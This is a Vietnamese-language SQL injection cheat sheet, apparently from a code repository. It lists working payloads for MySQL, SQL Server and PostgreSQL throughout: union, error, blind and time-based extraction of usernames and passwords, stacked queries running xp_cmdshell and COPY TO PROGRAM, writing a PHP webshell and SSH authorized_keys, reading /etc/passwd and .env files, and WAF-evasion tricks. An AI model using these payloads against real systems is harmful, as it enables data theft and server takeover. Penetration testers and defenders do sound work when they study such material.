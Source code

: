 # SQL Injection

## Dấu hiệu nhận biết

* **Input bất thường**:
  * `id=1'` → Lỗi SQL (e.g., "You have an error in your SQL syntax").
  * `id=1' OR '1'='1--` → Trả về tất cả dữ liệu.
  * `id=1; --` → Bình luận bỏ phần truy vấn sau.
* **Kiểm tra thêm**:
  * `id=1' AND 1=1--` → Trang bình thường (True).
  * `id=1' AND 1=2--` → Trang lỗi (False).
* **Database phổ biến**:
  * MySQL/MariaDB: `information_schema`, `LOAD_FILE`, `INTO OUTFILE`.
  * SQL Server: `sys.*`, `xp_cmdshell`, `WAITFOR`.
  * PostgreSQL: `pg_catalog`, `pg_read_file`, `COPY`.
* **Phản hồi**:
  * Lỗi SQL, dữ liệu bất thường, status code (500, 200), hoặc trì hoãn (Blind Time).

## Cách khai thác

### 1. Union-Based SQLi (MySQL, MariaDB)

* **Xác định số cột**:
  * `id=1 ORDER BY 1--` → Tăng số đến khi lỗi (binary search: `ORDER BY 4`, `ORDER BY 2`).
  * `id=1 UNION SELECT null,null,null--` → Tăng `null` đến khi không lỗi.
  * `id=-1 GROUP BY 4--` → Nếu `UNION` bị chặn.
* **Kiểm tra cột hiển thị**:
  * `id=-1 UNION SELECT 1,2,3--` → Tìm cột string hiển thị trên trang.
* **Trích xuất dữ liệu**:
  * Database: `id=-1 UNION SELECT 1,group_concat(0x7c,schema_name,0x7c) FROM information_schema.schemata--`.
  * Tables: `id=-1 UNION SELECT 1,group_concat(0x7c,table_name,0x7c) FROM information_schema.tables WHERE table_schema='db_name'--`.
  * Columns: `id=-1 UNION SELECT 1,group_concat(0x7c,column_name,0x7c) FROM information_schema.columns WHERE table_name='users'--`.
  * Data: `id=-1 UNION SELECT 1,concat(username,0x7e,password) FROM users--`.
  * SQL Server: `id=-1 UNION SELECT 1,username+'~'+password FROM users--`.
* **Giới hạn**:
  * `LIMIT 2,1` → Lấy bản ghi thứ 2, 1 bản ghi.
* **Lưu ý**:
  * Loại bỏ dữ liệu gốc: `id=-1` để truy vấn gốc trả về rỗng.
  * INSERT nhiều giá trị: `INSERT INTO log(a,b,c) VALUES (1,2,3),(SELECT version(),null,null);`.

### 2. Error-Based SQLi

* **Gây lỗi**:
  * MySQL: `id=1 AND extractvalue(1,concat(0x7e,(SELECT database()),0x7e))--`.
  * SQL Server: `id=1 AND 1=convert(int,(SELECT db_name()))--`.
* **Trích xuất dữ liệu**:
  * Database: `id=1 AND extractvalue(1,concat(0x7e,(SELECT group_concat(schema_name) FROM information_schema.schemata),0x7e))--`.
  * Tables: `id=1 AND extractvalue(1,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='db_name'),0x7e))--`.
  * Columns: `id=1 AND extractvalue(1,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='users'),0x7e))--`.
  * Data: `id=1 AND extractvalue(1,concat(0x7e,(SELECT concat(username,':',password) FROM users LIMIT 0,1),0x7e))--`.
* **Lưu ý**:
  * Phụ thuộc vào lỗi hiển thị.
  * PostgreSQL ít hỗ trợ Error-Based.

### 3. Blind Boolean-Based SQLi

* **Kiểm tra**:
  * `id=1 AND 1=1--` → True (trang bình thường).
  * `id=1 AND 1=2--` → False (trang lỗi).
  * `id=1 AND (SELECT 'a' FROM users WHERE username='admin')='a'--` → True nếu admin tồn tại.
* **Trích xuất dữ liệu**:
  * Độ dài: `id=1 AND length(database())=7--`.
  * Ký tự: `id=1 AND substring(database(),1,1)='w'--` hoặc `id=1 AND ascii(substring(database(),1,1))=119--`.
  * Subquery: `id=1 AND substring((SELECT concat(username,':',password) FROM users LIMIT 0,1),1,1)='a'--`.
  * Tối ưu: `id=1 AND ascii(substring(database(),1,1)) BETWEEN 65 AND 90--` (binary search).
* **Lưu ý**:
  * Dùng `upper()`/`lower()` để giảm request.
  * Status code: 200 (sai), 500 (đúng) để giảm nhiễu.

### 4. Blind Time-Based SQLi

* **Kiểm tra**:
  * MySQL: `id=1 AND sleep(5)--`.
  * SQL Server: `id=1; WAITFOR DELAY '0:0:5'--`.
  * PostgreSQL: `id=1 AND pg_sleep(5)--`.
* **Trích xuất dữ liệu**:
  * Độ dài: `id=1 AND IF(length(database())=7,sleep(5),0)--`.
  * Ký tự: `id=1 AND IF(ascii(substring(database(),1,1))=119,sleep(5),0)--`.
  * Subquery: `id=1 AND IF(substring((SELECT concat(username,':',password) FROM users LIMIT 0,1),1,1)='a',sleep(5),0)--`.
* **Lưu ý**:
  * Đảm bảo mạng ổn định để tránh nhầm lẫn trì hoãn.
  * SQL Server: `IF...WAITFOR`; MySQL: `IF...sleep`.

### 5. Stack Query SQLi

* **Thực thi nhiều lệnh**:
  * MySQL: `id=1; SELECT sleep(5)--`.
  * SQL Server: `id=1; EXEC master..xp_cmdshell 'whoami'--`.
  * PostgreSQL: `id=1; COPY (SELECT '') TO PROGRAM 'id'--`.
* **Ví dụ**:
  * Ghi file: `id=1; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'--`.
  * Đọc file: `id=1; SELECT LOAD_FILE('/etc/passwd')--`.
* **Lưu ý**:
  * Phụ thuộc vào ngôn ngữ lập trình và cấu hình DB.
  * PostgreSQL: `COPY` cho RCE.

### 6. SQLi to RCE

* **Kiểm tra quyền**:
  * MySQL: `SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type IN ('EXECUTE', 'FILE')--`.
  * SQL Server: `SELECT * FROM sys.fn_my_permissions(NULL, 'DATABASE')--`.
* **Đọc file**:
  * MySQL: `id=1 UNION SELECT 1,LOAD_FILE('/etc/passwd')--`.
  * PostgreSQL: `id=1 UNION SELECT 1,pg_read_file('/etc/passwd')--`.
  * SQL Server: `id=1; SELECT * FROM OPENROWSET(BULK 'C:\Windows\win.ini', SINGLE_CLOB) AS Contents--`.
* **Ghi file**:
  * MySQL: `id=1 UNION SELECT '<?php system($_REQUEST["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'--`.
  * Thư mục thay thế: `/tmp`, `/var/www/uploads`, `/var/www/static`.
  * Hex: `0x3c3f7068702073797374656d28245f524551554553545b22636d64225d293b3f3e` (bypass `'`).
* **Thực thi lệnh**:
  * SQL Server: `id=1; EXEC xp_cmdshell 'whoami'--`.
  * PostgreSQL: `id=1; COPY (SELECT '') TO PROGRAM 'whoami'--`.
  * MySQL: Ghi webshell hoặc thêm cron-job (`/etc/crontab`).
* **Khác**:
  * Authorized keys: `SELECT 'ssh-rsa ...' INTO OUTFILE '/root/.ssh/authorized_keys'--`.
  * Credential: `LOAD_FILE('/var/www/config.php')` hoặc `/var/www/.env`.

## Bypass

* **Filter**:
  * Case: `UNION` → `UnIoN`, `SELECT` → `SeLeCt`.
  * Comment: `/**/` thay dấu cách, `-- -` tránh trim().
  * Khoảng trống: Tab, `%0a`, `%0d`, `%00`.
* **WAF**:
  * Mã hóa: `hex()`, `char()`, `0x<hex>` (e.g., `0x3c3f706870` cho `<?php`).
  * Ký tự đặc biệt: `%0a`, `%0d`, `%2f`.
  * Obfuscation: `SEL/**/ECT`, `UNION/**/SELECT`.
* **Tối ưu**:
  * Binary search: `ORDER BY 4`, `ascii(substring(...)) BETWEEN 65 AND 90`.
  * Giảm request: `upper()`/`lower()`, `LIMIT` cho subquery.
  * Status code: 200 (sai), 500 (đúng) cho Blind Boolean.

## Ghi chú

* **Kiểm tra phản hồi**: Status code, content-length, body content, time response.
* **Công cụ hỗ trợ**:
  * Burp Suite: Intercept, Intruder (Blind SQLi), Repeater.
  * SQLMap: `--tamper`, `--dbms` (MySQL, SQL Server, PostgreSQL).
  * Netcat: Reverse shell (`nc -lvp 4444`).
* **Database**:
  * MySQL/MariaDB: `information_schema`, `LOAD_FILE`, `INTO OUTFILE`.
  * SQL Server: `sys.*`, `xp_cmdshell`, `WAITFOR`.
  * PostgreSQL: `pg_catalog`, `pg_read_file`, `COPY`.
* **RCE**:
  * Webshell: `/var/www/html/shell.php`.
  * Cron-job: Append `/etc/crontab`.
  * Authorized keys: `/root/.ssh/authorized_keys`.
  * Credential: `/var/www/config.php`, `.env`.
* **Tối ưu**:
  * Binary search: Tăng tốc `ORDER BY`, Blind Boolean/Time.
  * Error path: Lỗi gợi ý thư mục ghi (e.g., `/tmp`, `/var/www/uploads`).
  * INSERT: `INSERT INTO log(a,b,c) VALUES (1,2,3),(SELECT version(),null,null);`.
  * Lỗi cột: Không dùng `UNION` nếu số cột khác nhau.